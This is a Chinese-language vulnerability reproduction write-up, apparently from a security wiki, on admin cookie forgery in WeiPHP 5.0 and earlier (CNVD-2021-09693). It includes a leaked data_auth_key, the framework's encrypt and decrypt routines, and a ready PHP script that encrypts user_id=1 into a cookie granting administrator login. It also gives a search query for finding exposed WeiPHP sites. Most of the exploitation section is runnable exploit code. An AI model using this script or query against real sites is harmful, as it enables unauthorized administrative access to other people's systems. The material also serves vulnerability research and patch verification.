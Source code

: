# WeiPHP5.0 任意用户Cookie伪造 CNVD-2021-09693

## 漏洞描述

Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie

## 影响版本

<a-checkbox checked>Weiphp <= 5.0</a-checkbox></br>

## 环境搭建

[weiphp5.0官方下载参考手册](https://www.weiphp.cn/doc/Initialization_database.html)

参考官方手册创建网站即可

![img](/assets/PeiQi-Wiki/img/weiphp-1.png)



## 网络测绘

<a-checkbox checked>app="WeiPHP"</a-checkbox></br>



## 漏洞复现

首先需要得到数据库配置文件中的 `data_auth_key`密钥

![img](/assets/PeiQi-Wiki/img/weiphp-15.png)



得到这个配置文件可参照上一篇 `Weiphp5.0 前台文件任意读取`



```plain
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```



全局查找下使用了这个密钥的地方



![img](/assets/PeiQi-Wiki/img/weiphp-16.png)



找到了跟据这个密钥的加密方法和解密方法



`加密方法 think_encrypt`



```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```



`解密方法 think_decrypt



```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```



全局查看下使用了解密方法的地方



在文件 `application\common.php` 中含有使用解密方法的代码，用于做身份验证



```php
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```



根据这里得到的代码，可以知道当`user_Id=1`时,会解密密钥后判断是否正确，如果正确则可以登录系统



我们在本地使用加密代码加密`user_id=1`得到的cookie则可以登录系统



```php
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```



![img](/assets/PeiQi-Wiki/img/weiphp-17.png)



添加`cookie: user_id=xxxxxxxx`即可成功登录



![img](/assets/PeiQi-Wiki/img/weiphp-18.png)



![img](/assets/PeiQi-Wiki/img/weiphp-19.png)

